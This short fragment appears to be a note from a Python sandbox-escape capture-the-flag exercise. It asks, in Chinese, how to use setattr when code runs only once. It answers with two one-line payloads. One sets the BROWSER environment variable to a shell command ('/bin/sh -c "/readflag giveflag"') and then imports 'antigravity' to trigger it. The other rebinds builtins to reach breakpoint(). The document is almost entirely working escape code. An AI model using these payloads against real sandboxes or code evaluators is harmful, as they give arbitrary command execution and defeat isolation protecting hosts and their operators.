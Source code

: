 如何在只执行一次代码的前提下使用setattr呢？
`__import__('antigravity',setattr(__import__('os'),'environ',dict(BROWSER='/bin/sh -c "/readflag giveflag" #%s')))`

`setattr(copyright,'__dict__',globals()),delattr(copyright,'breakpoint'),breakpoint()`


